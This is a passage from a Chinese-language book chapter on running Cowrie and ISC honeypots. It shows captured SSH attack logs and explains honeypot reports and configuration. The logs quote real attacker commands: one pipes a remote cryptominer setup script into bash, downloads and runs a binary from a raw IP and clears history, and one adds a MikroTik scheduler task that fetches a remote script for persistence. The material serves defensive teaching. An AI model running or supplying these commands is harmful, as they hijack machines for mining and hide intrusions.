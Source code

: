 在接下来的例子中，攻击者试图下载加密货币挖矿应用程序，将他们新受损的 Linux 主机添加到他们的加密货币挖矿“农场”中：

```
2021-07-19T02:31:55.439658Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,5,141.98.10.56] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa ; history -c'"
2021-07-19T04:28:49.356339Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,9,142.93.97.193] executing command "b'curl -s -L https://raw.githubusercontent.com/C3Pool/xmrig_setup/master/setup_c3pool_miner.sh | bash -s 4ANkemPGmjeLPgLfyYupu2B8Hed2dy8i6XYF7ehqRsSfbvZM2Pz7 bDeaZXVQAs533a7MUnhB6pUREVDj2LgWj1AQSGo2HRj; wget http://142.93.105.28/a; chmod 777 a; ./a; rm -rfa; history -c'"
```

请注意，他们都在他们的命令中添加了一个`history –c`附录，用于清除当前会话的交互式历史记录，以隐藏攻击者的活动。

在这个例子中，攻击者试图将恶意软件下载添加到 Linux 调度程序 cron 中，以便他们可以保持持久性 - 如果他们的恶意软件被终止或删除，它将在下一个计划任务到来时重新下载并重新安装：

```
2021-07-19T04:20:03.262591Z [SSHChannel session (0) on SSHService b'ssh-connection' on HoneyPotSSHTransport,4,103.203.177.10] executing command "b'/system scheduler add name="U6" interval=10m on-event="/tool fetch url=http://bestony.club/poll/24eff58f-9d8a-43ae-96de-71c95d9e6805 mode=http dst-path=7wmp0b4s.rsc\\r\\n/import 7wmp0b4s.rsc" policy=api,ftp,local,password,policy,read,reboot,sensitive,sniff,ssh,telnet,test,web,winbox,write'"
```

攻击者试图下载的各种文件都被收集在`/srv/cowrie/var/lib/cowrie/downloads`目录中。

您可以自定义 Cowrie 诱饵 - 您可能会进行的一些常见更改位于以下位置：

![](https://github.com/OpenDocCN/freelearn-linux-zh/raw/master/docs/linux-net-prof/img/B16336_14_Table_04.jpg)

还有什么？只需在线检查您的 ISC 账户 - 您可能会感兴趣的链接位于**我的账户**下：

![图 14.14 – ISC 诱饵 – 在线报告](https://github.com/OpenDocCN/freelearn-linux-zh/raw/master/docs/linux-net-prof/img/B16336_14_014.jpg)

图 14.14 – ISC 诱饵 – 在线报告

让我们稍微详细讨论一下这些选项：

![](https://github.com/OpenDocCN/freelearn-linux-zh/raw/master/docs/linux-net-prof/img/B16336_14_Table_05.jpg)

在线，针对您的诱饵的 SSH 活动在 ISC 门户网站下的**我的 SSH 报告**中进行了总结：

![图 14.15 – SSH 诱饵报告](https://github.com/OpenDocCN/freelearn-linux-zh/raw/master/docs/linux-net-prof/img/B16336_14_015.jpg)

图 14.15 – SSH 诱饵报告

目前，SSH 汇总数据的主要报告涉及使用的用户 ID 和密码：

![图 14.16 – ISC SSH 报告 – 观察到的用户 ID 和密码](https://github.com/OpenDocCN/freelearn-linux-zh/raw/master/docs/linux-net-prof/img/B16336_14_016.jpg)

图 14.16 – ISC SSH 报告 – 观察到的用户 ID 和密码

所有活动都被记录下来，因此我们确实会不时地看到针对这些攻击数据的研究项目，并且各种报告随着时间的推移而得到完善。

Web 诱饵与 SSH 诱饵有类似的配置。各种攻击的检测在`/srv/www/etc/signatures.xml`文件中更新。这些定期从互联网风暴中心的中央服务器更新，所以虽然您可以自己进行本地编辑，但这些更改很可能会在下一次更新时被“覆盖”。
